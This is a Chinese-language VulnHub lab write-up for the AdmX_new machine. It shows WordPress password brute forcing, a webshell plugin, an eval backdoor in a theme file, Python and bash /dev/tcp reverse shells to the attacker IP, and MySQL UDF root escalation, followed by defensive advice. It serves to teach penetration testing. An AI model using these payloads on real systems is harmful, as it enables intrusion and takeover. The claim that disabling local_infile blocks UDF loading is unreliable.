

## 概述

本页面记录 VulnHub 靶机 **AdmX_new** 的完整渗透测试复现流程。攻击链涵盖：主机发现与端口扫描、Web 目录爆破、Burp Suite 响应内容替换修复资源加载、WordPress 后台弱口令爆破、WordPress 插件上传植入 Webshell、Python 反弹 Shell 建立交互、蚁剑连接管理、读取数据库配置文件、MySQL UDF 提权至 Root 权限。适合 OSCP 风格实战练习与渗透测试基础巩固。

## 环境准备

| 角色 | IP 地址 | 说明 |
|------|---------|------|
| 攻击机 | 192.168.192.129 | Kali Linux |
| 靶机 | 192.168.192.130 | Ubuntu (AdmX_new) |

> 文章来源：无名安全团队成员 N1vRANA 微信公众号归档，思路参考苑房弘老师打靶课程。

## 攻击链路总览



---

## 信息收集

### 主机发现

```bash
nmap -sn 192.168.192.0/24
```

发现存活主机 `192.168.192.130`。

### 端口与服务扫描

```bash
nmap -sV 192.168.192.130
```

开放端口：`80/tcp (http)`、`3306/tcp (mysql)` 等。访问 80 端口为 Apache2 默认页面，无有效信息。

### Web 目录爆破

```bash
dirsearch --url http://192.168.192.130
```

发现 WordPress 站点目录 `wordpress/`，访问后因资源引用旧 IP `192.168.159.145` 导致页面加载异常。

### Burp Suite 响应内容替换

在 **Proxy → Options → Match and Replace** 添加规则：

- **Match**: `192.168.159.145`
- **Replace**: `192.168.192.130`
- **Match Type**: Response header / body

重新抓包后页面正常加载，发现 WordPress 后台登录入口 `/wordpress/wp-login.php`。

---

## WordPress 后台弱口令爆破

使用 **Hydra** 爆破：

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.192.130 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username"
```

爆破成功获得凭证：**admin / adam14**，登录后台。

---

## Getshell：WordPress 插件上传

### 插件上传攻击面

WordPress 后台 **Plugins → Add New → Upload Plugin** 支持上传符合规范的 ZIP 插件包。构造恶意插件：

```php
<?php
/*
Plugin Name: Evil Plugin
Description: Reverse Shell Plugin
Version: 1.0
Author: Attacker
*/
system($_GET['cmd']);
?>
```

打包为 ZIP 上传并启用。

### 触发代码执行

插件默认路径：`/wordpress/wp-content/plugins/evil-plugin/evil-plugin.php`  
访问 `http://192.168.192.130/wordpress/wp-content/plugins/evil-plugin/evil-plugin.php?cmd=whoami` 验证执行。

### Python 反弹 Shell

靶机存在 Python，使用如下 Payload 反弹：

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.192.129",11111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

攻击机监听：`nc -lvnp 11111`，成功获得 Shell。

> 同类技术可参考：[[php-webshell-fundamentals-chopper-analysis]] 中的一句话木马执行原理与蚁剑连接流程。

### 备选：Metasploit WordPress 插件利用模块

```msf
use exploit/unix/webapp/wp_admin_shell_upload
set TARGETURI /wordpress
set USERNAME admin
set PASSWORD adam14
set RHOSTS 192.168.192.130
exploit
```

该模块同理上传恶意插件获取 Meterpreter 会话，但部分命令受限，不如原生 Python 反弹 Shell 稳定。

---

## 后渗透与权限维持

### 升级 Full TTY

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl+Z 背景化
stty raw -echo; fg
export TERM=xterm
```

### 蚁剑连接管理

在主题编辑器修改 `Twenty Twenty-One` 主题的 `404.php` 植入一句话：

```php
<?php @eval($_POST['cmd']); ?>
```

蚁剑配置 URL `http://192.168.192.130/wordpress/wp-content/themes/twentytwentyone/404.php`，密码 `cmd`，实现可视化文件管理、终端、数据库管理。

> 详见 [[php-webshell-fundamentals-chopper-analysis]] 与 [[php-webshell-obfuscation-av-evasion]]。

---

## 信息搜集与凭证窃取

### 读取数据库配置

```bash
cat /var/www/html/wordpress/wp-config.php
```

获取数据库凭证：
- **DB_NAME**: wordpress
- **DB_USER**: root
- **DB_PASSWORD**: (配置文件中的密码)
- **DB_HOST**: localhost

### 尝试数据库登录

```bash
mysql -u root -p
```

配置文件密码登录失败，尝试无密码登录或其他凭证复用。

### 获取第一个 Flag

在 `/home` 或 `/var/www` 目录下发现 `flag1.txt`，读取内容。

---

## 提权：MySQL UDF 提权至 Root

### 原理简述

MySQL **UDF (User Defined Function)** 允许加载共享库（`.so` / `.dll`）创建自定义函数。若 MySQL 以 **root 权限** 运行且 `plugin_dir` 可写，攻击者可上传恶意 UDF 共享库（如 `lib_mysqludf_sys.so`），创建 `sys_exec` / `sys_eval` 函数执行系统命令，从而实现提权。

> 相关原理可参考 [[mysql-dnslog-injection-loadfile-unc]] 中 `load_file()` 与 UDF 的文件操作能力。

### 实战步骤

1. **确认 MySQL 运行权限与插件目录**

```sql
SELECT user(), current_user();
SHOW VARIABLES LIKE 'plugin_dir';
-- 通常为 /usr/lib/mysql/plugin/
```

2. **上传 UDF 共享库**

将编译好的 `lib_mysqludf_sys.so` 通过蚁剑或 `scp` 上传至靶机 `/tmp/`，再移动至 `plugin_dir`：

```bash
cp /tmp/lib_mysqludf_sys.so /usr/lib/mysql/plugin/
```

3. **创建 UDF 函数**

```sql
CREATE FUNCTION sys_exec RETURNS INT SONAME 'lib_mysqludf_sys.so';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.so';
```

4. **执行系统命令提权**

```sql
SELECT sys_exec('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```

或直接反弹 Root Shell：

```sql
SELECT sys_exec('bash -c "bash -i >& /dev/tcp/192.168.192.129/2222 0>&1"');
```

攻击机监听 `nc -lvnp 2222`，获得 Root 权限会话。

5. **获取最终 Flag**

```bash
cat /root/flag2.txt
```

---

## 关键技术点总结

| 阶段 | 核心技术 | 关键工具/命令 |
|------|----------|---------------|
| 信息收集 | nmap 主机/端口扫描、dirsearch 目录爆破、Burp Suite 响应替换 | `nmap -sV`, `dirsearch`, Burp Match&Replace |
| 漏洞利用 | WordPress 弱口令爆破、插件上传 RCE、Python 反弹 Shell | `hydra`, 恶意插件 ZIP, `python3 -c '...'` |
| 权限维持 | Full TTY 升级、蚁剑 Webshell 管理、主题 404.php 植入后门 | `pty.spawn`, 蚁剑, `@eval($_POST['cmd'])` |
| 后渗透 | 读取 `wp-config.php`、MySQL UDF 提权 | `cat wp-config.php`, `CREATE FUNCTION ... SONAME` |
| 提权 | MySQL UDF `sys_exec` 执行系统命令、SUID 提权 | `SELECT sys_exec('...')` |

---

## 防御与缓解建议

1. **WordPress 加固**
   - 强制强密码策略、启用二次认证（2FA）、限制登录失败次数。
   - 禁用文件编辑功能：`define('DISALLOW_FILE_EDIT', true);`。
   - 仅安装可信来源插件/主题，定期更新核心与插件。

2. **MySQL 安全配置**
   - **最小权限原则**：以非 root 系统用户运行 MySQL 服务。
   - 限制 `plugin_dir` 写权限：`chmod 755 /usr/lib/mysql/plugin`，所属 `root:root`。
   - 禁用 UDF 加载：`SET GLOBAL local_infile=OFF;`、移除不必要的 `CREATE FUNCTION` 权限。
   - 启用 `secure_file_priv` 限制文件导入导出目录。

3. **网络层面**
   - 禁止数据库端口（3306）直接对外暴露，仅允许应用服务器访问。
   - 部署 WAF 规则拦截可疑插件上传、PHP 代码执行特征。

4. **主机层面**
   - 部署 HIDS/EDR 监控 `/usr/lib/mysql/plugin/` 目录写入、异常 `mysqld` 子进程执行。
   - 审计 `sys_exec`、`sys_eval` 等 UDF 函数创建与调用日志。

---

## 交叉引用与延伸阅读

- [[vulnhub-platform-resource-index]] — VulnHub 靶场资源合集与 Writeup 索引
- [[vulnhub-doubletrouble-writeup]] — Shellshock + Dirty COW 提权链复现
- [[vulnhub-chronos-writeup]] — Node.js 原型链污染 + 命令注入 + sudo 提权
- [[vulnhub-bbs-cute-102-writeup]] — CuteNews 文件上传绕过 Getshell
- [[vulnhub-pwned-writeup]] — FTP/SSH 密钥复用 + Docker 逃逸提权
- [[vulnhub-hard-socnet2-writeup]] — 文件上传、SQL注入、XML-RPC、内核提权、二进制溢出全链路
- [[php-webshell-fundamentals-chopper-analysis]] — PHP 一句话木马原理与蚁剑流量分析
- [[mysql-dnslog-injection-loadfile-unc]] — MySQL `load_file()` 与 UDF 文件操作能力
- [[internal-network-pivoting-techniques]] — 内网穿透与横向移动代理技术体系（含 frp、Venom、Cobalt Strike SMB Beacon）
- [[peda-buffer-overflow-analysis-guide]] — PEDA 调试 Linux 缓冲区溢出与 ROP 提权实战

---

## 附录：完整命令速查

```bash
# 1. 主机发现
nmap -sn 192.168.192.0/24

# 2. 服务扫描
nmap -sV -p- 192.168.192.130

# 3. 目录爆破
dirsearch -u http://192.168.192.130 -e php,html,txt,zip,bak

# 4. 爆破 WordPress
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.192.130 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username"

# 5. Python 反弹 Shell (攻击机监听 nc -lvnp 11111)
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.192.129",11111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

# 6. 升级 TTY
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl+Z -> stty raw -echo; fg -> export TERM=xterm

# 7. MySQL UDF 提权 (需先上传 lib_mysqludf_sys.so 到 plugin_dir)
mysql -u root -p
# CREATE FUNCTION sys_exec RETURNS INT SONAME 'lib_mysqludf_sys.so';
# SELECT sys_exec('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
# /tmp/rootbash -p  # 获取 root shell
```

---

*本页面基于无名安全团队微信公众号归档文章整理，仅供安全研究与教学演示使用，请勿用于非授权环境。*

## 来源

- [0x00实验室-202108-202304_074](../sources/0x00实验室-202108-202304_074.md)
